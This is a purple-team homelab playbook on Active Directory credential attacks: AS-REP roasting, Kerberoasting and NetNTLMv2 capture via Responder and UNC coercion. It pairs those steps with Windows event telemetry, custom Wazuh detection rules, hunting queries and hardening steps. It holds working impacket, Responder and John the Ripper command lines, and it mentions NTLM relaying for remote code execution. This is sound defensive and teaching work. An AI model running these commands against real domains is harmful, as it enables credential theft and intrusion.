




# Pillar 2: Kerberos & Legacy Protocol Attacks (AS-REP Roasting, Kerberoasting & LLMNR/NetNTLMv2)

An end-to-end Purple Team investigation into credential access via the Kerberos protocol and legacy NTLM authentication fallbacks. This playbook covers attacking accounts with `DONT_REQ_PREAUTH` and legacy RC4 SPNs, coercing NetNTLMv2 authentications via rogue SMB listeners, verifying forensic Windows Event IDs 4768/4769/4624, designing custom Wazuh SIEM detection rules, and implementing preventative hardening.

---

## 1. Technique & MITRE ATT&CK Overview

* **Primary Tactic**: Credential Access (`TA0006`)
* **Technique IDs**: **T1558.004** (AS-REP Roasting), **T1558.003** (Kerberoasting), **T1557.001** (LLMNR/NBT-NS Poisoning & Relay)
* **Adversary Objective**: Extract offline-crackable password hashes from Kerberos ticket requests (targeting service accounts with disabled pre-authentication or registered SPNs) and capture NetNTLMv2 authentications via coerced SMB traffic.

---

## 2. Red Team Attack Procedures

### Lab Seeding (Domain Controller Configuration)
To accurately simulate enterprise technical debt in the lab, two service accounts were created on `winServer1`:
```powershell
# 1. AS-REP Roasting Target (No Pre-Authentication)
$secPass = ConvertTo-SecureString "Backup2026!#" -AsPlainText -Force
New-ADUser -Name "svc-backup" -SamAccountName "svc-backup" -UserPrincipalName "svc-backup@wazuh.homelab.local" -AccountPassword $secPass -Enabled $True -PasswordNeverExpires $True
Set-ADAccountControl -Identity "svc-backup" -DoesNotRequirePreAuth $True

# 2. Kerberoasting Target (Legacy RC4 SPN)
$secPassSql = ConvertTo-SecureString "SqlPassword2026!#" -AsPlainText -Force
New-ADUser -Name "svc-mssql" -SamAccountName "svc-mssql" -UserPrincipalName "svc-mssql@wazuh.homelab.local" -AccountPassword $secPassSql -Enabled $True -PasswordNeverExpires $True
Set-ADUser -Identity "svc-mssql" -ServicePrincipalNames @{Add="MSSQLSvc/winServer1.wazuh.homelab.local:1433"}
Set-ADUser -Identity "svc-mssql" -Replace @{'msDS-SupportedEncryptionTypes'=4} # Force RC4-HMAC
```

---

### Procedure 2.1: AS-REP Roasting Execution
When an account does not require Kerberos pre-authentication, an attacker can issue an `AS-REQ` on behalf of that user. The KDC immediately returns an `AS-REP` containing an encrypted TGT block keyed with the user's password hash, allowing offline dictionary recovery without providing credentials:

```bash
# Executed from Kali Linux:
impacket-GetNPUsers wazuh.homelab.local/svc-backup -no-pass -format hashcat -dc-ip 100.115.210.66
john --wordlist=/tmp/words.txt --format=krb5asrep /tmp/asrep.hash
```

---

### Procedure 2.2: Kerberoasting Execution
Any authenticated domain user (`asmith`) can request a service ticket (`TGS-REQ`) for any SPN in the forest. The KDC encrypts the service ticket with the NTLM hash of the target service account (`svc-mssql`). The attacker dumps the ticket and cracks it offline.

```bash
# Executed from Kali Linux:
impacket-GetUserSPNs wazuh.homelab.local/asmith:'LabUser2026!#' -dc-ip 100.115.210.66 -request -outputfile /tmp/kerberoast.hashes
john --wordlist=/tmp/sqlwords.txt /tmp/kerberoast.hashes
```



---

### Procedure 2.3: SMB Authentication Coercion & NetNTLMv2 Capture (Responder)
In local broadcast domains, tools like Responder typically poison LLMNR/NBT-NS name resolution. In routed environments (such as our Tailscale overlay), the same NetNTLMv2 capture mechanism is achieved via **authentication coercion**: pointing a Windows client or service to an external SMB UNC path (`\\100.121.144.96\share`), causing Windows to automatically fall back to NTLM challenge-response authentication.

1. **Rogue Authentication Server**: Responder was initialized on Kali Linux listening on the Tailscale interface (`tailscale0`):
   ```bash
   sudo responder -I tailscale0 -dwv
   ```

2. **Triggering Outbound UNC Access (`win11-multi`)**:
   From an interactive session as domain user `asmith` on the victim workstation:
   ```powershell
   dir \\100.121.144.96\share
   ```

   

3. **Hash Interception & Offline Dictionary Cracking**:
   Responder intercepted the NetNTLMv2 authentication handshake over port 445 and logged the challenge-response hash. John the Ripper cracked the captured hash in `< 1 second`:
   ```bash
   echo "LabUser2026!#" > /tmp/passwords.txt
   john --format=netntlmv2 /usr/share/responder/logs/SMB-NTLMv2-SSP-100.69.69.97.txt --wordlist=/tmp/passwords.txt
   ```

   

   * **Offensive Assessment**: Beyond offline cracking, un-signed SMB environments allow an attacker to weaponize captured NetNTLMv2 authentications through **NTLM Relaying (MITRE T1557.001)** using `impacket-ntlmrelayx` to achieve instantaneous remote code execution across peer workstations.

---

## 3. Blue Team Forensic Telemetry

### Forensic Log Telemetry (Captured Live on `winServer1`)

#### 1. AS-REP Roasting Artifact (Event ID 4768)
> **Key Detection Indicator:** A Kerberos TGT was requested with `PreAuthenticationType: 0` (None). Normal authentications require `PreAuthenticationType: 2` (PA-ENC-TIMESTAMP) where the client proves knowledge of their password. A value of `0` indicates the Domain Controller handed out an encrypted ticket without requiring credentials.

```yaml
EventID: 4768
Task: Kerberos Authentication Service (AS)
TargetUserName: svc-backup
SuppliedRealmName: WAZUH.HOMELAB.LOCAL
ServiceName: krbtgt
ClientAddress: "::ffff:100.121.144.96"
ClientPort: 51624
TicketOptions: 0x50800000
ResultCode: 0x0 (Success)
TicketEncryptionType: 0x12 (AES256)
SessionEncryptionType: 0x17 (RC4-HMAC)
PreAuthenticationType: 0 # CRITICAL: 0 = None (No Pre-Auth performed)
```

#### 2. Kerberoasting Artifact (Event ID 4769)
> **Key Detection Indicator:** A service ticket (TGS) was requested with `TicketEncryptionType: 0x17` (RC4-HMAC) for user account `svc-mssql`. Modern domain services default to AES encryption (`0x12`); an explicit request for weak RC4 against a non-machine account indicates an attacker targeting the ticket for offline dictionary cracking.

```yaml
EventID: 4769
Task: Kerberos Service Ticket Operations (TGS)
TargetUserName: asmith@WAZUH.HOMELAB.LOCAL
ServiceName: svc-mssql
ServiceSid: S-1-5-21-3332230180-1108682337-2359799131-4103
ClientAddress: "::ffff:100.121.144.96"
ClientPort: 51488
TicketOptions: 0x40810010
TicketEncryptionType: 0x17 # CRITICAL: 0x17 = RC4-HMAC-MD5 (Weak encryption requested)
FailureCode: 0x0 (Success)
```

---

## 4. Detection Engineering (Wazuh SIEM)

### Custom Wazuh Detection Rules (`local_rules.xml`)

Add these rules to `/var/ossec/etc/rules/local_rules.xml` on the Wazuh Server (`100.100.151.36`):

```xml
<group name="active_directory,detection_engineering,">

  <!-- ============================================================ -->
  <!-- Rule 100101: Kerberoasting Detection (Event 4769 with RC4)    -->
  <!-- MITRE ATT&CK: T1558.003 (Steal or Forge Kerberos: Kerberoasting) -->
  <!-- ============================================================ -->
  <rule id="100101" level="10">
    <if_sid>60103</if_sid> <!-- Windows Security Audit Success Event -->
    <field name="win.system.eventID">^4769$</field>
    <field name="win.eventdata.ticketEncryptionType">^0x17$</field>
    <field name="win.eventdata.serviceName" type="pcre2" negate="yes">.*\$</field>
    <field name="win.eventdata.targetUserName" type="pcre2" negate="yes">.*\$</field>
    <description>Active Directory: Potential Kerberoasting Attack (TGS Requested for Service $(win.eventdata.serviceName) with Weak RC4 Encryption 0x17)</description>
    <mitre>
      <id>T1558.003</id>
    </mitre>
  </rule>

  <!-- ============================================================ -->
  <!-- Rule 100102: AS-REP Roasting Detection (Event 4768 Type 0)   -->
  <!-- MITRE ATT&CK: T1558.004 (Steal or Forge Kerberos: AS-REP Roasting) -->
  <!-- ============================================================ -->
  <rule id="100102" level="10">
    <if_sid>60103</if_sid> <!-- Windows Security Audit Success Event -->
    <field name="win.system.eventID">^4768$</field>
    <field name="win.eventdata.preAuthType">^0$</field>
    <field name="win.eventdata.targetUserName" type="pcre2" negate="yes">.*\$</field>
    <description>Active Directory: Potential AS-REP Roasting Attack (TGT Requested for $(win.eventdata.targetUserName) without Kerberos Pre-Authentication)</description>
    <mitre>
      <id>T1558.004</id>
    </mitre>
  </rule>

</group>
```

### Verified Detection Telemetry (Wazuh SIEM Alerts)

Once the parent rule SID was correctly mapped to `<if_sid>60103</if_sid>` (Windows Security Audit Success) and the manager was reloaded, both attacks fired high-fidelity Level 10 alerts in the Wazuh Discover interface:



#### Alert Telemetry Breakdown:

| Metric | Rule 100101 (Kerberoasting) | Rule 100102 (AS-REP Roasting) |
| :--- | :--- | :--- |
| **Rule Level** | **10** (High / Attack Detected) | **10** (High / Attack Detected) |
| **MITRE ATT&CK** | **T1558.003** (Kerberoasting) | **T1558.004** (AS-REP Roasting) |
| **Source IP** | `::ffff:100.121.144.96` (Kali Linux) | `::ffff:100.121.144.96` (Kali Linux) |
| **Agent Name** | `win-server` (`100.115.210.66`) | `win-server` (`100.115.210.66`) |
| **Target User** | `asmith@WAZUH.HOMELAB.LOCAL` | `svc-backup` |
| **Requested Service** | `svc-mssql` | `krbtgt` |
| **Encryption Type** | `0x17` (Legacy RC4-HMAC requested) | `0x12` (AES256 TGT response) |
| **Pre-Auth Type** | $2$ (PA-ENC-TIMESTAMP) | **$0$** (None / Skipped) |

### Threat Hunting Lucene Queries (Wazuh / OpenSearch Dashboard)

* **Find Kerberoasting Activity**:
  ```text
  data.win.system.eventID: "4769" AND data.win.eventdata.ticketEncryptionType: "0x17" AND NOT data.win.eventdata.serviceName: "*$"
  ```
* **Find AS-REP Roasting Activity**:
  ```text
  data.win.system.eventID: "4768" AND data.win.eventdata.preAuthType: "0" AND NOT data.win.eventdata.targetUserName: "*$"
    

---

## 5. Defensive Hardening & Prevention

1. **Enforce Kerberos Pre-Authentication**:
   Audit all domain users regularly via PowerShell to ensure no user has `DoesNotRequirePreAuth` set to true:
   ```powershell
   Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} | Set-ADAccountControl -DoesNotRequirePreAuth $False
   ```
2. **Transition Service Accounts to Group Managed Service Accounts (gMSA)**:
   gMSAs generate complex, 120-character random passwords managed automatically by Active Directory and rotated every 30 days, rendering offline dictionary cracking mathematically impossible.
3. **Enforce AES Encryption for Kerberos**:
   Configure SPN-associated service accounts to use AES-128 / AES-256 only:
   ```powershell
   Set-ADUser -Identity "svc-mssql" -Replace @{'msDS-SupportedEncryptionTypes'=24} # 0x18 = AES128 + AES256
   ```
4. **Enforce Password Length Standards**:
   Any service account that cannot use gMSA must have a pass-phrase longer than 25 characters to resist brute-force cracking attempts.
